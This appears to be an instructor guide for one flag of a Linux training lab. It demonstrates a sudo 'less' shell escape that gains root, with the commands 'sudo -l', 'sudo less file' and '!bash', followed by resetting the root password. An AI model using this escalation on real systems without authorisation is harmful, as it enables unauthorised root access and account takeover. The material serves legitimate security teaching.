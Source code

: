 #### Flag_7.

`Find an exploit to gain a root shell. Login as the root user.`

- Remind the students about the `less` vulnerability they learned at the end of our first Linux week.

- Display the `sudo` permissions for sysadmin:

    ```bash
    sysadmin:~\ $ sudo -l
    [sudo] password for sysadmin:
    Matching Defaults entries for sysadmin on scavenger-hunt:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User sysadmin may run the following commands on
            scavenger-hunt:
        (ALL : ALL) /usr/bin/less
    ```

- Point out that you now have the ability to run `less` with `sudo`.

    - It is always a good idea to check what sudo privileges they may have on a system when doing this kind of work.

- Demonstrate this exploit and drop into a root shell.

    - Run `touch file && sudo less file`.

    - Once inside `less`, type `:` then `!bash` and hit enter.

        ```bash
        sysadmin:~\ $ touch file && sudo less file
        root:~\ $
        ```

- Explain that because you now have a root shell, you can change the password for the root user and then login as root.

    - Run `passwd`.

    ```bash
    root:~\ $ passwd
    Enter new UNIX password:
    Retype new UNIX password:
    passwd: password updated successfully
    ```

- Exit back into your `less` shell:

    - Run `exit`.

    ```bash
    root:~\ $ exit
    exit
    ```

- Run `enter` to return to `less` and then `q` to quit.
